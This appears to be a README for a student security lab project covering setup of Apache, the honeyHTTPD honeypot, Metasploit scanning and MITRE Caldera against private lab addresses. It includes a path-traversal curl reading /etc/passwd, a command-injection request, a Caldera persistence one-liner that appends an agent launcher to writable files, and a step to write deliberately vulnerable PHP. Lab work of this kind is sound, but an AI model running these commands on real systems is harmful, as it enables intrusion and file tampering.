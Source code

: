 # group9-344
ICS3444 project
To run apache2:
- sudo apt install apache2 -y.
- sudo systemctl start apache2


# Honeypot (honeyHTTPD) setup:
1- clone repo: Using command git clone https://github.com/bocajspear1/honeyhttpd.git

2- Navigate to the Directory honeyhttpd

3- intall vitual enviroment: sudo apt install python3-venv

4- create vitual enviroment: python3 -m venv venv

5- activate it: source venv/bin/activate

6- install dependencies: pip install -r requirements.txt

7- use this command to generate keys: Using command openssl req -x509 -newkey rsa:2048 -keyout server.key -out server.pem -days 365 -nodes

8- copy the config.json.default to config.json and add in it "key_path": "server.key" after "cert_path": "server.pem",
Then use start.py --config config.json to start the honeypot


# Kali Metasploitable commands:
1- "nmap -sV 192.168.56.104"

2- "sudo msfconsole"

3- "search apache"

4- choose a general service auxiliary/scanner/http/apache_userdir_enum

5- "set RHOSTS 192.168.56.104"

6- "use auxiliary/scanner/http/apache_userdir_enum"

7- "exploit"

# Caldera commands:
-clone to caldera: git clone https://github.com/mitre/caldera.git --recursive

-python3 server.py --insecure

-curl http://192.168.13.165:80

-curl http://192.168.13.165:80/../../../../etc/passwd

-curl "http://192.168.13.165:80/execute?cmd=ls"

-For excutable files: find / -type f -size -500k -maxdepth 5 -perm -333 2>/dev/null -exec sh -c 'grep -qF "54NDC47_SCRIPT" "{}" || echo "#54NDC47_SCRIPT\n" "chmod +x sandcat.go-linux && sandcat.go-linux" >> "{}"; ls "{}" ' \; | echo "complete"

-and more inner operations within Caldera ( not manual)


# Custom Scripts:
- nano /var/www/html/vulnerable_page.php
- create vunrable code
- use comprimizing code above ( victim scripts or honey scritps )
